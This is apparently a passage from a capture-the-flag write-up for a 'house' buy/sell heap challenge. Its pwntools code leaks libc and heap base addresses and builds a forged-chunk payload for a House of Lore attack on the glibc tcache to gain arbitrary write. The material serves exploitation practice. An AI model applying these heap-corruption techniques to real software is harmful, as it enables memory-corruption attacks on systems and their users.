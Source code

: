 ```
#leak
show_house(1, reading = False)
for i in range(0, 10):
    ru(p64(0xa1))
leaked_libc = u64(p.read(8))
leaked_heap = u64(p.read(8))

libc_base = leaked_libc - 0x1e4ca0
heap_base = leaked_heap - 0x1d60
log.critical("libc_base --> {}".format(hex(libc_base)))
log.critical("heap_base --> {}".format(hex(heap_base)))
```
![](./index_files/383e4bd0-cefc-4320-a3ea-d408f39c1927.png)
### House of Lore
I use house of lore to fuck the tcache struct in heap range to reach the goal of arbitrary writing.
Firstly, I sell the bit chunk and buy the chunk to change the value overlapped by this chunk. This is really usefull in the consistance that we can only upgrade houses for twice.
By modifying chunks, we can make the change the size of the chunk of **house 2** to 0x21 and the size of the chunk of **house 7** to 0x31.
```
sell(1)

buy_house(1, 0x8c0, "\xbb" * 0xa0 +
          p64(0) + p64(0x21) + "\xcc" * 0x10 +
          p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
          p64(0) + p64(0xa1) + "\xdd" * 0x90 +
          (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
          p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d40 - 0x10) + p64(heap_base + 0x1d60) + "\x44" * 0x80 +
          p64(0) + p64(0x21) + "\x55" * 0x10 +
          p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
          p64(0) + p64(0xa1) + p64(heap_base + 0x1c20) + p64(libc_base + 0x1e4d40 - 0x10) + "\x66" * 0x80 +
          p64(0) + p64(0x31) + p64(heap_base + 0x40) * 4 +
          p64(0) + p64(0xa1 - 0x30) + "\x00" * (0x90 - 0x30) )

#prepare for house of lore
sell(2)
sell(7)
sell(1)
```
After we free the chunk of **house 2** and the chunk of **house 7**, we get 2 bin pointer at heap_base + 0x50, which is quite useful for house of lore attack.